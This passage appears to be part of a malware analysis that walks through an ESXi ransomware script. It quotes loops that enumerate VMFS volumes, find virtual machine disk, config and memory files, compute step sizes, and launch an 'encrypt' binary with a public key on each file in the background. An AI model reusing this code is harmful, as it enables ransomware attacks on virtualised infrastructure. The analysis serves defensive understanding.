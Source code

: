```bash
        fi
        size_step=0
        if [[ $(($size_kb/1024)) -gt 128 ]]; then
          size_step=$((($size_kb/1024/100)-1))
        fi
        echo "START ENCRYPT: $file_e SIZE: $size_kb STEP SIZE: $size_step" "\"$file_e\" $size_step 1 $((size_kb*1024))"
        echo $size_step 1 $((size_kb*1024)) > "$file_e.args"
        nohup $CLEAN_DIR/encrypt $CLEAN_DIR/public.pem "$file_e" $size_step 1 $((size_kb*1024)) >/dev/null 2>&1&
      fi
  done
  IFS=$" "
done
```

Let's break this down: 

```bash
for volume in $(IFS='\n' esxcli storage filesystem list | grep "/vmfs/volumes/" | awk -F'  ' '{print $2}'); do
```

This 1st `for loop` is going through every volumes in the `/vmfs/volumes/` directory.

```bash
for file_e in $( find "/vmfs/volumes/$volume/" -type f -name "*.vmdk" -o -name "*.vmx" -o -name "*.vmxf" -o -name "*.vmsd" -o -name "*.vmsn" -o -name "*.vswp" -o -name "*.vmss" -o -name "*.nvram" -o -name "*.vmem"); do
```

This 2nd `for loop` is going to try to find any files in those volumes with the following extensions:
- `.vmdk`
- `.vmx`
- `.vmxf`
- `.vmsd`
- `.vmsn`
- `.vswp`
- `.vmss`
- `.nvram`
- `.vmem`

```bash
if [[ -f "$file_e" ]]; then
    size_kb=$(du -k $file_e | awk '{print $1}')
    if [[ $size_kb -eq 0 ]]; then
        size_kb=1
    fi
    size_step=0
    if [[ $(($size_kb/1024)) -gt 128 ]]; then
        size_step=$((($size_kb/1024/100)-1))
    fi
```
